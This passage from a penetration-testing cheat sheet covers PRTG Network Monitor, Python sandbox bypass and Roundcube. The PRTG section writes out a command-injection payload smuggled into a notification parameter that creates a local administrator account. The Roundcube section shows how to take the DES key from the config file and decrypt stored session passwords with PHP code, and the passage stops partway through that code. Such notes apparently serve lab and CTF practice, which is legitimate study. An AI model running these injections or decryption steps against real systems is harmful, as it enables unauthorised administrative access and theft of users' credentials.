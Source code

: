 - `/var/www/osticket/upload/include/ost-config.php`


## PRTG Monitor

##### Admin Shell

- Click on Setup &rarr; Account Settings &rarr; Notifications &rarr; Add new notification

- Set Name → Tick `EXECUTE PROGRAM` 

- Under `Program File` select `Demo exe notification  - outfile.ps1`

- Enter a command in the Parameter CMD field, `test.txt;[CMD]`e.g. add a new local admin:

  ```powershell
  test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add
  ```

- Save → Click `Test` to Run Notification

## Sandboxes
### JavaScript

### Python

https://hacktricks.boitatech.com.br/misc/basic-python/bypass-python-sandboxes

## Roundcube
### Enumeration
- `/CHANGELOG`
### Exploit
1. Check `/var/www/html/roundcube/config/config.inc.php` to see where sessions are stored and get the session encryption key `$config['des_key'] = 'rcmail-!24ByteDESkey*Str';`
2. Sessions could be in `/var/lib/roundcube/sessions/` or in a database
3. Decode from base64
4. Decrypt using the encryption key
	```php
	<?php
	$encrypted = "[PWD]";
	$key = "[KEY]"; // From config.inc.php
	
	// Decode Base64 and decrypt
	$decoded = base64_decode($encrypted);
	$iv = substr($decoded, 0, 8); // First 8 bytes = IV
	$ciphertext = substr($decoded, 8);
	$decrypted = openssl_decrypt(
	    $ciphertext,
	    'des-ede3-cbc',
	    $key,
	    OPENSSL_RAW_DATA,
	    $iv
	);
	